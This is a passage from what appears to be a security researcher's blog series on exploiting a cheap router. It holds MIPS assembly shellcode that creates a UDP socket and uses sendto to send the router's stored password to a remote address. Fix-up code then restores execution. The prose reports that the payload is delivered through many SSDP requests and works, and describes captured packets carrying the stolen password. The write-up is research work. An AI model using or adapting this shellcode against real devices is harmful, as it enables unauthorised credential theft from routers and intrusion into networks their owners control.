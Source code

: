 ```
-mipsasm
addiu $a0, $zero, 2;
addiu $a1, $zero, 2;
jalr $s3;           /* socket(2, 2, 0) - s3 contains address of socket()*/
move $a2, $zero;
```

- Move all of the arguments to the correct registers, and call **sendto**:

```
-mipsasm
move $a0, $v0;      /* v0 contains sockfd_address */
move $a1, $s2;      /* s2 contains pwd buffer address */
move $a2, $s0;      /* s0 contains pwd length */
move $a3, $zero;
move $t0, $s1;      /* s1 contains the address of sockaddr */
lui $v0, 0x8012;
or $v0, $v0, 0x8bc4;
jalr $v0;           /* sendto(sockfd_addr (0x802ab9b0), pwd_buffer (0x801d3754), len, 0, sockaddr_addr (0x802ab980), 0x20); */
addiu $t1, $zero, 0x20;
```

- Finally, jump to the address of the fix shellcode to load the expected register values and adjust the stack pointer:

```
-mipsasm
j 0x802C3638;   /* fix address */
xor $v0, $s3, $s3;
```

As you can see, it is much easier to follow than the ROP chain in part 3!

### Does it work?

After sending the huge amount of SSDP requests to write the shellcode, decode it, and then run it, it works! I did initially have some issues with random crashes, but this was fixed by adding delays between the packets being sent, and also attempting to write each memory address twice. This was probably due to the caches being annoying as per usual.

Here are some of the packets that are seen when sending the payload in wireshark, you can see the password-containing packet be sent from the router at the end:

![packets.png](/assets/images/analysing_a_dirt_cheap_router_part_4/packets.png)

And here are the contents of the UDP packet containing the password:

![packet_contents.png](/assets/images/analysing_a_dirt_cheap_router_part_4/packet_contents.png)
